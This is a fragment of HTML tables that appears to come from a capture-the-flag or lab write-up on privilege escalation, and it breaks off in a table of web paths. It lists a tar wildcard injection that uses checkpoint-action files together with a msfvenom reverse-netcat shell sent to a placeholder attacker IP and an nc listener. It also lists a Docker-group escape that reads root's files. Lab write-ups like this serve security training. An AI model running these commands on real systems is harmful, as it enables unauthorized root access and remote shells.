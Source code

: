 <tbody>
<tr class="odd">
<td><p>Vuln#1</p>
<p> </p></td>
<td>Tar Wildcard Exploit</td>
<td><p>$sudo -l</p>
<p><strong>Reveals</strong></p>
<p>(michael) NOPASSWD: /opt/backups/backup.sh</p></td>
<td><p>$touch -- "--checkpoint=1"</p>
<p>$touch -- "--checkpoint-action=exec=sh shell.sh"</p>
<p>$touch shell.sh</p>
<p>$sudo -u michael ./backup.sh</p>
<p>@attacker</p>
<p>$echo "msfvenom -p cmd/unix/reverse_netcat lhost=&lt;attacker_ip&gt; lport=4444 R" &gt; shell.sh</p>
<p>#Transfer shell.sh to victim (can also just copy the contents and create a local #file at the victim side)</p>
<p>$nc -lvnp 4444</p></td>
</tr>
<tr class="even">
<td>Vuln#2</td>
<td>Docker</td>
<td><p><strong>Prerequisite: shell as user that is in group 'docker'</strong></p>
<p> </p></td>
<td><p><a href="https://medium.com/@Affix/privilege-escallation-with-docker-56dc682a6e17">https://medium.com/@Affix/privilege-escallation-with-docker-56dc682a6e17</a></p>
<p>$docker run -v /root:/mnt alpine cat /mnt/root.txt</p>
<p><em> </em></p>
<p> </p>
<p> </p></td>
</tr>
</tbody>
</table></td>
<td><p>Flag#2</p>
<p>Flag#3</p></td>
</tr>
</tbody>
</table></td>
</tr>
</tbody>
</table>

 

<table>
<thead>
<tr class="header">
<th>80</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td><table>
<thead>
<tr class="header">
<th>Path</th>
<th>Contents</th>
<th>Misc</th>
</tr>
</thead>
<tbody>
<tr class="odd">
<td>/new</td>
<td><table>
<thead>